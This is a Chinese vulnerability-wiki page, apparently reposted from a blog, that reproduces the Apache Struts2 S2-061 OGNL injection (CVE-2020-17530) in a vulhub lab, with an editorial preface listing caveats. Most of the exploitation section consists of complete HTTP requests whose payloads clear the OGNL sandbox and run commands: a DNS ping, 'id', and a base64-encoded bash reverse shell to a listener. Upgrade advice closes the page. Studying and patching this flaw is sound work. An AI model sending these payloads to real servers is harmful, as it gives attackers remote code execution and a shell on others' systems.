






# Struts2-061

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0–2.5.25，双重求值标签；Tomcat InstanceManager与CommonsCollections BeanMap/FreeMarker实际类路径
- 证据范围：特别指出BeanMap不在最小依赖包，是有价值的利用前提；修复2.5.26和避免不可信求值已给。

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- multipart边界后多空行使Content-Disposition可能成为body内容，应恢复请求格式
- 缺BeanMap只能阻断本篇链，不能断言所有OGNL注入都无法利用
- 反弹编码目标与所列靶机同IP，需明确同机实验或更正
- DNS命令可持续ping，不能仅DNS结果泛化所有命令能力
- 2.5.26为该编号初次修复，需关联062后续而非当前完整安全保证

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

###   Struts2-061

### 0x00 漏洞简介

Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061  Struts  远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大。

### 0x01 漏洞描述

Struts2 会对某些标签属性(比如 `id`，其他属性有待寻找) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 `x`  的值用户可控时，用户再传入一个 `%{payload}` 即可造成OGNL表达式执行。S2-061是对S2-059沙盒进行的绕过。

### 0x02 漏洞影响

struts 2.0.0 - struts 2.5.25

### 0x03 漏洞复现

**一.环境搭建**

1.docker环境地址：

https://github.com/vulhub/vulhub/tree/master/struts2/s2-061

docker-compose up -d #启动docker环境

```
2.访问目标地址
http://192.168.1.14:8080/index.action
二、漏洞利用
1.DNSlog验证漏洞
```

```http
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 853

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping    paqmgs.dnslog.cn")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

DNGlog记录可发现命令成功执行



2.通过构造post包执行exp 命令执行id

```http
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

burp提交后，在响应页面发现命令回显可，说明ID命令执行成功



或者

```http
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{

(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +

(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 

(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))

}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```



3.反弹shell命令

通过以下在线地址将bash反弹命令进行进行编码转换

http://www.jackson-t.ca/runtime-exec-payloads.html



提交以下poc:

```http
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMjIyMiAgIDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```



可以看到成功反弹shell:



### 0x04 漏洞修复

避免对不受信任的用户输入使用强制OGNL评估，或/和升级到2.5.26版，可修复该漏洞。腾讯安全专家建议受影响的用户将Apache Struts框架升级至最新版本

临时修复，升级到 Struts 2.5.26 版本，下载地址为：

https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26

### 0x05 漏洞总结

此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。


来源网络
https://www.cnblogs.com/backlion/p/14122528.html


---

> 来源：白阁文库 BaizeSec/bylibrary
